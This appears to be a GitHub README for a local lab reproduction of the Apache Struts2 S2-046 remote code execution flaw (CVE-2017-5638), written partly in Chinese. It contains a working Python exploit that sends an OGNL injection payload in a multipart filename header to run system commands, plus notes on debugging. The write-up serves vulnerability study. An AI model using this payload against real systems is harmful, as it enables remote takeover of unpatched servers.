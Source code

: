 # S2-046 Demo

## Summary

| Who should read this    | All Struts 2 developers and users                            |
| :---------------------- | ------------------------------------------------------------ |
| Impact of vulnerability | Possible RCE when performing file upload based on Jakarta Multipart parser |
| Maximum security rating | Critical                                                     |
| Recommendation          | Upgrade to [Struts 2.3.32](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.3.32) or [Struts 2.5.10.1](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.5.10.1) |
| Affected Software       | Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10     |
| Reporter                | Chris Frohoff <cfrohoff at qualcomm dot com>, Nike Zheng <nike dot zheng at dbappsecurity dot com dot cn>, Alvaro Munoz <alvaro dot munoz at hpe dot com> |
| CVE Identifier          | CVE-2017-5638                                                |

## Problem

在使用基于Jakarta插件的文件上传功能时，有可能存在远程命令执行，导致系统被黑客入侵。恶意用户可在上传文件时通过修改HTTP请求头中的Content-Disposition的filename来触发该漏洞，进而执行系统命令。

## Environment

| Struts2 Version | Struts-2.3.24          |
| :-------------- | :--------------------- |
| Web Server      | Tomcat 8.5.53          |
| IDE             | IDEA 2020.1.1 ULTIMATE |

## POC

![{F77DE265-A68E-4CB6-9819-2A14C06C1F2A}_20200727162951]({F77DE265-A68E-4CB6-9819-2A14C06C1F2A}_20200727162951.jpg)

Python exp（因为要发送畸形数据包，所以使用原生socket编写payload，见参考链接2）: 

```python
import socket

q = b'''------WebKitFormBoundaryXd004BVJN9pBYBL2
Content-Disposition: form-data; name="upload"; filename="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='calc').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}\x00b"
Content-Type: text/plain

foo
------WebKitFormBoundaryXd004BVJN9pBYBL2--'''.replace(b'\n', b'\r\n')
p = b'''POST /s2_046_war_exploded/Upload.action HTTP/1.1
Host: localhost:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,es;q=0.6
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXd004BVJN9pBYBL2
Content-Length: %d

'''.replace(b'\n', b'\r\n') % (len(q), )

with socket.create_connection(('localhost', '8080'), timeout=5) as conn:
    conn.send(p + q)
    print(conn.recv(10240).decode())
```

## Debug

具体分析可参考：[【漏洞分析】Struts2 S2-046 漏洞原理分析）](https://www.anquanke.com/post/id/85776)。在这里只记录一下调试入口以及大致原理。

Content-Disposition中的Filename参数存在空字节，在检查时会抛出异常，于是进入buildErrorMessage()方法。

在buildErrorMessage()方法处下断点，运行exp触发断点。

`s2-046/web/WEB-INF/lib/struts2-core-2.3.24.jar!/org/apache/struts2/dispatcher/multipart/JakartaMultiPartRequest.class:91`

![{D37502F2-3FD8-4046-8297-A5ED2E8FDE61}_20200727164242]({D37502F2-3FD8-4046-8297-A5ED2E8FDE61}_20200727164242.jpg)

## Reference

- [S2-046](https://cwiki.apache.org/confluence/display/WW/S2-046)
- [S2-046 远程代码执行漏洞（CVE-2017-5638）](https://github.com/vulhub/vulhub/blob/master/struts2/s2-046/README.zh-cn.md)
- [【漏洞分析】Struts2 S2-046 漏洞原理分析）](https://www.anquanke.com/post/id/85776)

